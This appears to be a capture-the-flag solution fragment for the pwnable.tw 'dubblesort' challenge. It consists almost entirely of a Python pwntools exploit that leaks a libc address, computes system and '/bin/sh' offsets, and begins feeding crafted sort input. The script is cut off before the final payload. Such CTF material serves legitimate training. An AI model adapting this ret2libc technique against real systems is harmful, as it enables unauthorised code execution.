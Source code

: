 ![image-20220414161902805](pwnabletw.assets/image-20220414161902805.png)

exp：

```python
from pwn import *
#context(arch="i386",os="linux",log_level="debug")
#io = process('./dubblesort')
io = remote('chall.pwnable.tw', 10101)


io.recvuntil('What your name :')
io.sendline('A'*24)
leak_addr = u32(io.recv()[30:34]) - 0x0a


''' local libc
libc_addr = leak_addr - 0x1B3000
system_addr = libc_addr + 0x0003adb0
binsh_addr = libc_addr + 0x0015bb2b
'''

libc_addr = leak_addr -  0x001b0000
system_addr = libc_addr + 0x3a940
binsh_addr = libc_addr +  0x158e8b

#io.recvuntil('How many numbers do you what to sort :')
io.sendline('35')

for i in range(24):
        io.sendline('1')
        io.recv()

io.sendline('+')

```